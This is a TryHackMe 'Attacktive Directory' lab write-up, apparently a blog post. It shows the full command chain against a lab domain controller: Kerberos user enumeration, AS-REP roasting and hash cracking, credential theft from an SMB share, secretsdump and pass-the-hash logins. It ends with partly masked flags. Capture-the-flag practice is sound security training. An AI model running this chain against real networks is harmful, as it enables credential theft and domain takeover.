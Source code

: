 +++
title = "Attacktive Directory - TryHackMe Writup"
description = "Exploit a vulnerable domain controller."
date = 2024-10-23
slug = "attacktive-directory"
image = "attacktive_directory.png"

[taxonomies]
categories = ["TryHackMe", "Writups"]
tags = ["attacktive directory", "tryhackme", "active directory", "domain controller"]
+++

<div style="display: flex; align-items: center;">
  <div>
	<img src="attacktive_directory.png" alt="Attacktive Directory" width="100"/>
  </div>
  <div style="margin-left: 10px;">
	<i>99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?</i>
  </div>
</div>

# Scanning
Target IP: 10.10.186.106

The result of nmap scan is 
<pre>
> nmap -sV 110.10.186.106 -v
......
Host is up (0.17s latency).
Not shown: 986 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-16 15:07:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
</pre>

## Enumeration

`enum4linux` is used for the enumeration of port 139/445

The result is
<pre>
❯ enum4linux -a 10.10.186.106
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Oct 17 07:48:03 2024

 =========================================( Target Information )=========================================

Target ........... 10.10.186.106
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 10.10.186.106 )===========================
.....
[E] Can't find workgroup/domain

 ===============================( Nbtstat Information for 10.10.186.106 )===============================

Can't load /etc/samba/smb.conf - run testparm to debug it
Looking up status of 10.10.186.106
No reply from 10.10.186.106

 ===================================( Session Check on 10.10.186.106 )===================================


[+] Server 10.10.186.106 allows sessions using username '', password ''


 ================================( Getting domain SID for 10.10.186.106 )================================

Can't load /etc/samba/smb.conf - run testparm to debug it
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963

[+] Host is part of a domain (not a workgroup)
......
 =================================( Share Enumeration on 10.10.186.106 )=================================

Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.186.106
......
</pre>

Here we got the NETBIOS domain name. Also `.local` is the invalid TLD most of the people use for AD,. The same is shown in this case too.

## Enumerating Users via Kerberos
`kerbrute` tool is used here. `userenum` is used to enumerate username. To run the command we need to setup domain name, so append this line in `/etc/hosts`. Userlist should be the provided one.

`10.10.186.106 spookysec.local`

Now runnning the command `kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt` we are getting valid usernames. The answer are already there.

## Abusing Kerberos

The two account here mentioned are already found in above task. The result of above command for one of them is like 
`2024/10/17 08:12:33 >  [+] svc-***** has no pre auth required. Dumping hash to crack offline:` and this is the answer we need.

Now running `GetNPUsers.py` tool of impacket to reterive information about the user. This is TGT, and this is already we have. The result is like
<pre>
❯ /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Cannot authenticate svc-admin, getting its TGT
/opt/impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$svc-*****@SPOOKYSEC.LOCAL:279edbdaf153fbd3c5e418fd97266821$3efe8c8212644d80f88de5f5e93b09ff8834c57ff88fcbc77d7f50a67073623623c247fe17c9d90.......
</pre>

Locking into the hash, we got name and mode. The mode is needed to crack the hash using `hashcat` but for `john` mode is not needed. In this case we are using john.

Here we got the password as
<pre>
❯ john svc-admin.hash --wordlist=passwordlist.txt
.....
Press 'q' or Ctrl-C to abort, almost any other key for status
mana**********   ($krb5asrep$23$svc-*****@SPOOKYSEC.LOCAL)
1g 0:00:00:00 DONE (2024-10-17 08:33) 2.325g/s 16669p/s 16669c/s 16669C/s horoscope..frida
Use the "--show" option to display all of the cracked passwords reliably
Session completed
</pre>

## Back to the Basics

Here we got the shares

<pre>
❯ smbclient -L 10.10.186.106 --user svc-*****
Can't load /etc/samba/smb.conf - run testparm to debug it
Password for [WORKGROUP\svc-admin]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
</pre>

Now connecting with backup share. We got something special. Download and acess this file as
<pre>
❯ smbclient \\\\10.10.186.106\\backup --user svc-***** --password mana**********
Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr  5 00:53:39 2020
  ..                                  D        0  Sun Apr  5 00:53:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 00:53:53 2020

		8247551 blocks of size 4096. 3631513 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
</pre>

There is a cipher. THis is encoded into base 64, decoding it.
<pre>
❯ base64 -d backup_credentials.txt
backup@spookysec.local:backu******** 
</pre>

## Elevating Privileges within the Domain

We are using `secretsdump.py` here and the above domain controller. Password is required and this is already with us by decoding above cipher.

The command to run is `./secretsdump.py -just-dc backup@spookysec.local`

Now we have all the answer to the question mentioned here. Also there is a method of attack called `Pass The Hash`, which allow us to authenticate as user without password and we have all the hashes so good to go.

## Flag Submission Panel

Now need to logged in using hash for different user, mentioned there to get and submit flag using tool `Evil-WinRM`.

User to try are `svc-admin`, `backup` and `Administrator`.

We are connected via Administrator using `evil-winrm -i 10.10.186.106 -u Administrator -H 0e0363213e37b9**********b0bcb4fc`

The flags are as 
<pre>
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> cat user.txt.txt
TryHackMe{K3rb3r0**********}

*Evil-WinRM* PS C:\Users\backup\Desktop> cat PrivEsc.txt
TryHackMe{B4ckM**********}

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
TryHackMe{4ctiveD1rec**********}
</pre>

Now we have completed the task, this was the hacking of domain controller.

Happy Hacking !!
